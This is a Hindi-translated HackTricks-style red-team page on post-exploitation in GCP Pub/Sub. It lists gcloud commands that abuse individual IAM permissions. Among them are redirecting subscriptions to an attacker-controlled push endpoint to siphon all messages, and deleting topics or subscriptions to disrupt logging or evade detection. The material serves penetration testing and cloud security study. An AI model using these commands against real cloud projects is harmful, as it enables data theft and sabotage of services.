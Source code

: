 # GCP - Pub/Sub Post Exploitation

<details>

<summary><strong>जानें AWS हैकिंग को शून्य से हीरो तक</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong> के साथ!</strong></summary>

HackTricks का समर्थन करने के अन्य तरीके:

* यदि आप अपनी **कंपनी का विज्ञापन HackTricks में देखना चाहते हैं** या **HackTricks को PDF में डाउनलोड करना चाहते हैं** तो [**सब्सक्रिप्शन प्लान्स देखें**](https://github.com/sponsors/carlospolop)!
* [**आधिकारिक PEASS & HackTricks स्वैग**](https://peass.creator-spring.com) प्राप्त करें
* हमारे विशेष [**NFTs**](https://opensea.io/collection/the-peass-family) कलेक्शन, [**The PEASS Family**](https://opensea.io/collection/the-peass-family) खोजें
* **शामिल हों** 💬 [**डिस्कॉर्ड समूह**](https://discord.gg/hRep4RUj7f) या [**टेलीग्राम समूह**](https://t.me/peass) या हमें **ट्विटर** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)** पर फॉलो** करें।
* **हैकिंग ट्रिक्स साझा करें, HackTricks** और [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos में PRs सबमिट करके।

</details>

## Pub/Sub

Pub/Sub के बारे में अधिक जानकारी के लिए निम्नलिखित पृष्ठ देखें:

{% content-ref url="../gcp-services/gcp-pub-sub.md" %}
[gcp-pub-sub.md](../gcp-services/gcp-pub-sub.md)
{% endcontent-ref %}

### `pubsub.topics.publish`

एक विषय में संदेश प्रकाशित करें, **अप्रत्याशित डेटा भेजने** और अप्रत्याशित कार्यों को ट्रिगर करने या सुरक्षा दोषों का शोधन करने के लिए उपयुक्त।
```bash
# Publish a message in a topic
gcloud pubsub topics publish <topic_name> --message "Hello!"
```
### `pubsub.topics.detachSubscription`

संदेश प्राप्त करने से बचने के लिए एक सब्सक्रिप्शन को अलग करने के लिए उपयोगी।
```bash
gcloud pubsub topics detach-subscription <FULL SUBSCRIPTION NAME>
```
### `pubsub.topics.delete`

एक सब्सक्रिप्शन को संदेश प्राप्त करने से रोकने के लिए उपयोगी, शायद पहचान से बचने के लिए।\
संदेश संलग्न होने पर भी एक विषय को हटाना संभव है।
```bash
gcloud pubsub topics delete <TOPIC NAME>
```
### `pubsub.topics.update`

इस अनुमति का उपयोग करें टॉपिक की कुछ सेटिंग को अपडेट करने के लिए, जैसे `--clear-schema-settings`, `--message-retention-duration`, `--message-storage-policy-allowed-regions`, `--schema`, `--schema-project`, `--topic-encryption-key`...

### `pubsub.topics.setIamPolicy`

खुद को किसी भी पिछले हमले करने की अनुमति दें।

### **`pubsub.subscriptions.create,`**`pubsub.topics.attachSubscription` , (`pubsub.subscriptions.consume`)

एक वेब सर्वर में सभी संदेश प्राप्त करें:

{% code overflow="wrap" %}
```bash
# Crete push subscription and recieve all the messages instantly in your web server
gcloud pubsub subscriptions create <subscription name> --topic <topic name> --push-endpoint https://<URL to push to>
```
{% endcode %}

एक सब्सक्रिप्शन बनाएं और उसका उपयोग करें **मैसेज पुल** करने के लिए:
```bash
# This will retrive a non ACKed message (and won't ACK it)
gcloud pubsub subscriptions create <subscription name> --topic <topic_name>

# You also need pubsub.subscriptions.consume for this
gcloud pubsub subscriptions pull <FULL SUBSCRIPTION NAME>
## This command will wait for a message to be posted
```
### `pubsub.subscriptions.delete`

**एक सब्सक्रिप्शन हटाएं** एक लॉग प्रोसेसिंग सिस्टम को बिगाड़ने या कुछ समान के लिए उपयोगी हो सकता है:
```bash
gcloud pubsub subscriptions delete <FULL SUBSCRIPTION NAME>
```
### `pubsub.subscriptions.update`

इस अनुमति का उपयोग करें ताकि कुछ सेटिंग को अपडेट किया जा सके जिससे संदेश एक स्थान में स्टोर किए जा सकें (URL, Big Query तालिका, Bucket) या फिर इसे विघटित किया जा सके।

{% code overflow="wrap" %}
```bash
gcloud pubsub subscriptions update --push-endpoint <your URL> <subscription-name>
```
{% endcode %}

### `pubsub.subscriptions.setIamPolicy`

खुद को उन अनुमतियों को दें जो पहले टिप्पणीत हमलों को करने की आवश्यकता है।

### `pubsub.schemas.attach`, `pubsub.topics.update`,(`pubsub.schemas.create`)

एक स्कीमा को एक विषय से जोड़ें ताकि संदेश उसे पूरा न करें और इसलिए विषय विघटित हो जाए।\
यदि कोई स्कीमा नहीं है तो आपको एक बनाने की आवश्यकता हो सकती है।

{% code title="schema.json" %}
```json
{
"namespace": "com.example",
"type": "record",
"name": "Person",
"fields": [
{
"name": "name",
"type": "string"
},
{
"name": "age",
"type": "int"
}
]
}
```
{% endcode %}
```bash
# Attach new schema
gcloud pubsub topics update projects/<project-name>/topics/<topic-id> \
--schema=projects/<project-name>/schemas/<topic-id> \
--message-encoding=json
```
### `pubsub.schemas.delete`

यह ऐसा लग सकता है कि जब आप स्कीमा हटाएंगे तो आप ऐसे संदेश भेज सकेंगे जो स्कीमा के साथ मेल नहीं खाते। हालांकि, क्योंकि स्कीमा हटा दिया जाएगा, कोई संदेश वास्तव में विषय में प्रवेश नहीं करेगा। इसलिए यह **व्यर्थ** है:
```bash
gcloud pubsub schemas delete <SCHEMA NAME>
```
### `pubsub.schemas.setIamPolicy`

खुद को उन अनुमतियों को दें जो पहले टिप्पणीत हमलों को करने के लिए आवश्यक हैं।

### `pubsub.snapshots.create`, `pubsub.snapshots.seek`

यह सभी अनअकेड मैसेज का एक स्नैपशॉट बनाएगा और उन्हें सब्सक्रिप्शन में वापस डाल देगा। हमलावर के लिए बहुत उपयोगी नहीं है लेकिन यहाँ है:
```bash
gcloud pubsub snapshots create YOUR_SNAPSHOT_NAME \
--subscription=YOUR_SUBSCRIPTION_NAME
gcloud pubsub subscriptions seek YOUR_SUBSCRIPTION_NAME \
--snapshot=YOUR_SNAPSHOT_NAME
```
<details>

<summary><strong>जानें AWS हैकिंग को शून्य से हीरो तक</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

दूसरे तरीके HackTricks का समर्थन करने के लिए:

* अगर आप अपनी **कंपनी का विज्ञापन HackTricks में देखना चाहते हैं** या **HackTricks को PDF में डाउनलोड करना चाहते हैं** तो [**सब्सक्रिप्शन प्लान्स**](https://github.com/sponsors/carlospolop) देखें!
* [**आधिकारिक PEASS & HackTricks स्वैग**](https://peass.creator-spring.com) प्राप्त करें
* हमारे विशेष [**NFTs**](https://opensea.io/collection/the-peass-family) कलेक्शन, [**The PEASS Family**](https://opensea.io/collection/the-peass-family) खोजें
* **शामिल हों** 💬 [**Discord समूह**](https://discord.gg/hRep4RUj7f) या [**टेलीग्राम समूह**](https://t.me/peass) या हमें **ट्विटर** पर **फॉलो** करें 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **अपने हैकिंग ट्रिक्स साझा करें, PRs सबमिट करके** [**HackTricks**](https://github.com/carlospolop/hacktricks) और [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos में।

</details>
